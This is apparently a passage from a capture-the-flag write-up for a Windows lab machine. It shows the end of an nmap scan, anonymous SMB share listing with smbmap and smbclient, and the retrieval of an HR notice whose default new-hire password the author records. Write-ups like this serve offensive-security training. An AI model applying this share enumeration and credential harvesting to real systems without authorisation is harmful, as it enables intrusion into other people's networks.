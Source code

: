 ```bash
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.86 seconds
```

* from nmap we obtained info:
  * Windows machine
  * SMB under -p445



#### scan SMB shares

```bash
smbmap -H 10.10.11.35 -u 'anonymous'
```

* scan it as anonymous user => default user with None PW
* we obtained HR share with readonly access without PW

```bash
smbclient //10.10.11.35/HR -U 'anonymous'


smb: \> dir
  .                                   D        0  Thu Mar 14 13:29:09 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024

		4168447 blocks of size 4096. 415785 blocks available
smb: \> get "Notice from HR.txt" 
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (7,8 KiloBytes/sec) (average 7,8 KiloBytes/sec)
smb: \> exit
```

* there is a file
  * get it to a local machine

```bash
$cat Notice\ from\ HR.txt 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

```

* OK, we obtained default PW for new users...
  *   ```
      Cicada$M6Corpb*@Lp#nZp!8
      ```


